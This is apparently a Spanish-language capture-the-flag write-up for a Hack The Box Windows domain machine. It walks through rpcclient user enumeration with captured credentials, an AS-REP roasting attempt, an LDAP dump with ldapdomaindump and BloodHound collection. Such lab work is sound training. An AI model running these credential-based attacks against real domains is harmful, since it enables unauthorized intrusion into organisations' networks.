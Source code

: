 Nos creamos una lista de usuario desde rpcclient

```bash
cd content
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" 
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' 
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v 
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]'
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users.txt
```

Como tenemos un listado de usuarios, lanzamos un ataque ASPRoasting para ver si encontramos el TGT de otro usuario.

### Asproasting attack {-}

```bash
GetNPUsers.py htb.local/amanda:Ashare1972 -no-pass -usersfile users
```

Aqui vemos que el ataque no aranca y es normal. Si miramos el contenido del fichero targeted de **nmap** vemos que el puerto 88 de Kerberos no
esta abierto y esto no nos permite ejecutar un ASPRoasting o un Kerberosting attack.


### LDAP domain dump {-}

Intentamos recuperar informaciones desde el ldap.

```bash
cd /var/www/html
ldapdomaindump -u "htb.local\amanda" -p Ashare1972 10.10.10.103 
```

Hemos podido dumpear las informaciones del ldap en ficheros web.

```bash
service apache2 start
```

y analizamos las informaciones desde firefox en la url `http://localhost`.

Las informaciones interesantes aqui son el echo que el usuario mrlky es kerberoasteable, y que el usuario amanda puede conectarse por WinRM.

Continuamos la enumeracion ldap con **bloodhound-python**


### Bloodhound desde la maquina de atacante {-}

**Bloodhound-python** permite recuperar la informacion del ldap desde la maquina de atacante

```bash
pip install bloodhound
bloodhound-python -d htb.local -u amanda -p Ashare1972 -gc sizzle.htb.local -c all -ns 10.10.10.103
```

